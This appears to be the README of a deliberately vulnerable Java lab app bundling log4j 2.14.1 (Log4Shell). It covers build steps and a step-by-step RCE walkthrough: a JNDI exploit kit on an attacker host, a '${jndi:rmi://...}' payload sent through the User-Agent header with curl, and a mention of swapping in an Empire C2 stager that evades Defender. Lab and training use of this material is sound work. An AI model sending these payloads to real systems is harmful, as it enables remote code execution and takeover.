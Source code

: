 # log4shell vulnerable app

This is a basic, minimal, intentionally vulnerable Java web application
including a version (2.14.1) of the [log4j](https://en.wikipedia.org/wiki/Log4j)
library affected by the infamous
[log4shell](https://en.wikipedia.org/wiki/Log4Shell) (CVE-2021-44228)
vulnerability.

## build and run instructions

Gradle wrapper should solve everything. Simply git clone the repo:

```
git clone https://github.com/tothi/log4shell-vulnerable-app
```

### running with gradle wrapper

And in the project dir with the file [build.gradle](./build.gradle),
simply run:

```
./gradlew appRun
```

or on Windows platform:

```
.\gradlew.bat appRun
```

JDK is needed. Versions 8 and 11 were tested and are working, 17 seems to
have issues.

### building a portable fat jar

This method builds a one-file portable fat JAR including an embedded
Tomcat server.

Simply run the gradle wrapper with the configured `shadowJar' task:

```
./gradlew shadowJar
```

or on Windows platform:

```
.\gradlew.bat shadowJar
```

The compiled and packages JAR file will be built in the folder `./build/libs`.

It is portable and can be launched using JRE:

```
java -jar ./build/libs/log4shell-vulnerable-app-all.jar
```

The all-in-one portable JAR is available on the [releases page](https://github.com/tothi/log4shell-vulnerable-app/releases) here in the repo.

### interacting with the vulnerable application

The vulnerable application should listen on _all_ interfaces by
default (DANGEROUS behavior if you run it on a production box).

It is available on the URL:

```
http://<IP_ADDR>:8888/app/
```

Note, that the log4j vulnerability triggers only when the app performs
some log4j logging activity. In this demo app, it is active when accessing
the URL:

```
http://<IP_ADDR>:8888/app/servlet
```

and passing a string in the Header "User-Agent". (This is what gets logged.)
For example, using curl:

```
curl http://<IP_ADDR>:8888/app/servlet -H 'User-Agent: <payload>'
```

This highlights that __detecting the log4j vulnerability is not obvious at all__.

## exploiting the RCE

Here are some instructions on how to exploit the RCE (even on up-to-date
default Java configurations with TrustURLCodebase set to false).
Tested on Linux and Windows with Java 11.0.1[23].

Simply use the [JNDI Injection Exploit Kit](https://github.com/welk1n/JNDI-Injection-Exploit) by welk1n or a more recent [fork](https://github.com/pimps/JNDI-Exploit-Kit) by pimps.

Steps to perform (in this example, target host is 192.168.56.101 and attacker gost is 192.168.56.1):

1. Launch the vulnerable web app with `.\gradlew.bat appRun`. It listens
on 192.168.56.101:8888 and uses Tomcat 8.5 as a backend. Tomcat 8 (in the classpath) is mandatory for the javax.el.ELProcessor RMI exploit path (supported by the current version of the JNDI Injection Exploit Kit).

2. Launch the JNDI Injection Exploit Kit on the attacker host after building with `mvn package` with `java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'calc.exe'` (the payload will execute calc.exe on the target). Helper servers are started now on 192.168.56.1. Assuming the RMI url for trustURLCodeBase false config is `rmi://192.168.56.1:1099/xzmtee`.

3. Trigger the exploit by sending the malicious payload through the "User-Agent" header: `curl http://192.168.56.101:8888/app/servlet -H 'User-Agent: ${jndi:rmi://192.168.56.1:1099/xzmtee}`

4. The app should use the vulnerable log4j for logging the contents of the "User-Agent" header. While logging, it looks up the referenced RMI URL, and the JNDI Kit sends the RCE payload classloading reference.

5. Note, that instead of logging the actual content of the "User-Agent" header, the referenced class name ("javax.el.ELProcessor") gets logged.

6. On the target host, calc.exe should be spawned, reaching RCE.

![](./log4shell_rce_demo.png)

UPDATE: here is an extra PoC screenshot for those who are curious and doubt whether launching a calc.exe is useful for anything at all. In this screenshot, replaced the calc.exe payload with an Empire stager giving a full featured C2 Empire Agent (also bypassing up-to-date Windows Defender).

![](./log4shell_rce_demo_empire.png)
